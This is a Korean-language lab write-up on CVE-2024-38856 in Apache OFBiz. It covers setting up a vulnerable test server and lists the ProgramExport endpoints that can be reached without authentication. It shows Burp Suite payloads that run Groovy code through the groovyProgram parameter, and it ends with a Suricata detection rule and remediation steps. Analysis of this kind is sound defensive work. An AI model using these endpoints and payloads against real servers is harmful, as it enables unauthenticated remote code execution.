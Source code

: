 ```yaml
---
layout: default
title: cve-2024-38856
category: "Apache"
nav_order: 3
parent: cve
---
```


# cve-2024-38856
{: .no_toc }

Apache OFBiz Incorrect Authorization 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Apache OFBiz에서 특정 화면 정의(screen definitions)파일이 사용자의 권한을 명시적으로 검증하지 않고, 엔드포인트 설정에 의존하여 접근을 허용해 화면 렌더링 코드를 실행할 수 있는 취약점

## 1.2 취약 대상
Apache OFBiz 버전 18.12.14 이전

## 1.3 공격 원리
- Apache OFBiz의 웹 애플리케이션에서 엔드포인트를 스캔하여 취약한 엔드포인트 식별
- 취약한 엔드포인트를 통해 접근한 공격자는 관련된 화면 정의 파일(ProgramExport View)에 접근
- 화면 정의 파일에 포함된 화면 렌더링 코드를 악용하여 임의의 악성 코드를 실행

![](../../assets/images/cve-2024-27316/attack.png)

---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.56.1)
- Attacker: Windows10 (IP: 172.23.66.206) <br>

Apache OFBiz 버전 18.12.04 설치 및 security.properties 설정
```bash
## Apache 2.4.52 설치 및 환경설정
apt-get update
apt-get upgrade
sudo apt install openjdk-11-jdk
sudo apt install gradle ## gradle이란?

cd /usr/local/src
wget https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.04.zip
unzip apache-ofbiz-18.12.04.zip

## Apache OFBiz 18.12.04 는 Gradle 5.0.0 이상 버전을 사용
cd /usr/local/src/apache-ofbiz-18.12.04/gradle/wrapper
wget https://raw.githubusercontent.com/gradle/gradle/v5.0.0/gradle/wrapper/gradle-wrapper.properties
wget https://github.com/gradle/gradle/raw/v5.0.0/gradle/wrapper/gradle-wrapper.jar

## 주의 사항 : localhost 가 아닌, 가상환경에서 서버 구동 시, 해당 가상환경 ip를 설정에 등록
vi /usr/local/src/apache-ofbiz-18.12.04/framework/security/config/security.properties
## 옵션 변경
protect-view.preprocessor=
## 활성화 옵션
default.error.response.view=none:
## 아래에 추가
host-headers-allowed=localhost,192.168.56.1
block-external-host-requests=false
allow-program-export=true

## Apache OFBiz 18.12.04 실행
cd /usr/local/src/apache-ofbiz-18.12.04
./gradlew cleanAll loadAll
./gradlew ofbiz 

## ----- HomePage ----- ##
접속 : https://ip:8443/myportal/control/main
id : admin
password : ofbiz
```

<br>구현 된 홈페이지 (192.168.56.1:8443)

![](../../assets/images/cve/cve-2024-38856/homepage.png)

---

## 1.5 주요 내용
- CVE-2024-38856의 핵심은 ProgramExport 엔드포인트가 인증 없이 접근 가능한 취약점
- 이 엔드포인트는 외부에서 전달된 데이터를 Groovy Script로 실행할 수 있는 구조를 가지고 있어, 공격자가 특정 파라미터를 통해 코드 실행

{: .note-title }
> **ProgramExport**는 Apache OFBiz Framework에서 사용하는 Web Tools 중 하나로, 특정 기능이나 데이터를 처리 및 출력하는 데 사용한다. 이 엔드포인트는 주로 시스템 관리자가 다양한 데이터를 내보내거나 특정 프로그램을 통해 데이터 처리를 수행할 때 사용

<br> 

- 아래 코드는 groovyProgram이라는 HTTP 요청 파라미터에 들어온 값을 GroovyShell로 실행하는 코드
- 입력된 값에 대한 검증이 없어 공격자가 악성 코드를 groovyProgram 파라미터에 넣으면 해당 코드가 서버에서 실행되어 시스템 명령어를 실행하거나 데이터를 유출

```java
String groovyScript = request.getParameter("groovyProgram");
GroovyShell shell = new GroovyShell();
shell.evaluate(groovyScript);
```



---

## 1.6 공격 재현
Tool : Burp Suite v2024

## ProgramExport 엔드포인트 URL 접근
{: .no_toc }

Apache OFBiz에서 악용될 수 있는 URL은 TestService, view, showDateTime, main, forgotPassword
- example1 : https://192.168.56.1:8443/webtools/control/TestService/ProgramExport
- example2 : https://192.168.56.1:8443/webtools/control/view/ProgramExport
- example3 : https://192.168.56.1:8443/webtools/control/showDateTime/ProgramExport
- example4 : https://192.168.56.1:8443/webtools/control/main/ProgramExport
- example5 : https://192.168.56.1:8443/webtools/control/forgotPassword/ProgramExport

![](../../assets/images/cve/cve-2024-38856/TestService.png)


## Burp Suite 사용하여 groovyProgram에 파라미터값 전달
{: .no_toc }

- Burp Suite를 활용하여 payload에 groovyProgram 파라미터 값을 삽입 후 테스트
- groovyProgram=throw new Exception('CVE-2024-38856 TEST by Bite98');

![](../../assets/images/cve/cve-2024-38856/print_cve.png) <br>


테스트 확인 후, 시스템 정보()를 출력하는 파라미터값을 넣어 공격 진행
- groovyProgram=throw new Exception("Thread State: " + Thread.currentThread().getState());
- groovyProgram=throw%20new%20Exception%28%22Thread%20State%3A%20%22%20%2B%20Thread.currentThread%28%29.getState%28%29%29%3B

{: .note-title }
> **Thread.currentThread().getState()** 함수는 현재 스레드의 상태를 확인하여 예외를 통해 정보를 반환

![](../../assets/images/cve/cve-2024-38856/print_thread.png)

---

## 대응 패턴 적용
{: .no_toc }

- 신규 ET 패턴 1건

```bash
alert http any any -> $HOME_NET any (
    msg:"ET WEB_SPECIFIC_APPS Apache OFBiz Pre-Auth Remote Code Execution Attempt (CVE-2024-38856)";
    flow:established,to_server;
    http.method;
    content:"POST";
    http.uri;
    content:"/webtools/control/";
    fast_pattern;
    startswith;
    pcre:"/^(?:TestService|view|showDateTime|main|forgotPassword)/R";
    content:"ProgramExport";
    endswith;
    http.request_body;
    content:"groovyProgram";
    startswith;
    reference:url,blog.sonicwall.com/en-us/2024/08/sonicwall-discovers-second-critical-apache-ofbiz-zero-day-vulnerability/;
    reference:cve,2024-38856;
    classtype:attempted-admin;
    sid:2054947;
    rev:1;
    metadata:affected_product Apache_OFBiz, attack_target Server, tls_state TLSDecrypt, created_at 2024_08_06, cve CVE_2024_38856, deployment Perimeter, deployment Internal, deployment SSLDecrypt, performance_impact Low, confidence High, signature_severity Major, updated_at 2024_08_06;
    target:dest_ip;
)
```

---

## 1.7 대응 방안
- Apache OFBiz 버전 18.12.14 이상으로 업데이트
- ProgramExport 엔드포인트 인증 설정
- groovyProgram과 같은 파라미터가 코드 실행에 사용되지 않도록 검증 로직 추가

--- 

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-38856
[Apache]: https://ofbiz.apache.org/security.html
